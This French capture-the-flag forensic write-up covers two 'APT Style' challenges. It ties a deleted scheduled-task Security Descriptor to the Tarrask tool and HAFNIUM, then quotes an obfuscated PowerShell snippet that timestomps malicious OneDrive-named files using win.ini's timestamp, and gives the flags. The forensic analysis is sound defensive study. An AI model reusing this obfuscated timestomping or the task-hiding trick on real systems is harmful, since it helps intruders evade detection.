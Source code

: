 Difficulté : :star: :star: :star:

### Énoncé

> Quel élément a été supprimé afin de masquer ce comportement malveillant à Windows ? La réponse attendue est le chemin de l'élément supprimé.
>
> Quel groupe d'attaquant emploie une méthode similaire ? La réponse attendue est le nom du groupe.
>
> Le flag est au format FCSC{<chemin>:<nom du groupe>}.

### Solve

La seule valeur de clé qui est supprimé est la SD (Security Descriptor).

On va sur le site du Mitre pour voir les techniques sur la modification de clé de registre : https://attack.mitre.org/techniques/T1112/

Un coup de `CTRL + f --> SD`

```
S1011	Tarrask	Tarrask is able to delete the Security Descriptor (SD) registry subkey in order to "hide" scheduled tasks
```

- https://attack.mitre.org/software/S1011/
- https://attack.mitre.org/groups/G0125/

On remonte au groupe **HAFNIUM**

**Flag : FCSC{HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\Microsoft\Windows\Speech\SpeechModelDownloadTask\SD:HAFNIUM}**

## APT Style 3/7

Difficulté : :star:

### Énoncé

> Quel fichier est utilisé comme base de timestomp des fichiers malveillants ? La réponse attendue est le chemin complet du fichier au format : FCSC{<chemin>}.

### Solve

Dans le powershell, on peut voir un bout de code qui réalise le changement de timestomp :

```shell
    ${ts} = &("{1}{2}{0}" -f'tem','Get','-I') ((("{3}{4}{5}{1}{0}{2}"-f 'in','dows{0}w','.ini','C:{','0','}Win'))-F [cHAr]92) | .("{1}{0}" -f'oreach','F') {${_}."lAstwriTetIMe"};
    ${FILEs}= @(((("{11}{2}{16}{3}{1}{5}{20}{13}{7}{12}{17}{23}{14}{18}{19}{10}{6}{15}{8}{22}{9}{4}{0}{21}" -f 'er','MicrosoftwG','am ','Gi','at','iOne','iveSta','Upd','d','neUpd','r','C:wGiProgr','ate','ive','O','n','Filesw','rwG','ne','D','Dr','.exe','alo','i'))  -CRePLACe  ([cHAr]119+[cHAr]71+[cHAr]105),[cHAr]92), ((("{5}{1}{9}{13}{3}{6}{15}{14}{8}{0}{10}{2}{4}{11}{12}{7}" -f 'tq',':qXGPro','e','Micr','U','C','o','n.dll','f','gram F','XGOneDriv','pdaterq','XGversio','ilesqXG','o','s'))-cRePlaCe([cHar]113+[cHar]88+[cHar]71),[cHar]92), ((("{14}{11}{5}{13}{8}{10}{6}{12}{4}{9}{3}{0}{1}{2}{7}" -f 'UpdaterLX','nv','ers','ve','LXnOn','am ','Microsof','lon.dll','s','eDri','LXn','XnProgr','t','File','C:L')) -cRePLaCe'LXn',[CHAR]92), ((("{2}{3}{1}{7}{0}{8}{6}{5}{4}" -f'0Micros','m Fil','C:a','Y0Progra','pdater','0OneDriveU','taY','esaY','of')).("{0}{2}{1}" -f 'r','PLacE','e').Invoke('aY0','\')), ((("{4}{2}{1}{0}{3}"-f'}Microso','s{0','File','ft{0}','C:{0}Program '))  -f[chAR]92));
    ${filES}.("{0}{1}" -f 'F','orEach')({
        ${filE} = .('gi') ${_};
        ${fiLE}."lASTWritEtIMe"=${tS};
        ${filE}."LastACCESStIme"=${tS};
        ${fILe}."CReATionTIME"=${Ts};
    })
```
